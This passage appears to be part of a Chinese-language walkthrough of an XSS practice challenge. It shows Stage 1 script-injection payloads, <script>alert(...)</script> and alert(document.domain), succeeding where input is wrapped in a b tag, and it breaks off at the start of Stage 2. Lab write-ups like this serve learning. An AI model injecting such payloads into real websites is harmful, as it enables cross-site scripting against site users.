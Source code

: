 发现结果被b标签包裹，尝试输入测试代码

```text
<script>alert('mrzhang76')</script>
```

 攻击成功

![](../../.gitbook/assets/image%20%2845%29.png)

根据提示注入获得下一关地址 

```text
<script> alert(document.domain);</script>
```

![](../../.gitbook/assets/image%20%2870%29.png)

## **Stage2:**

输入的内容在value中
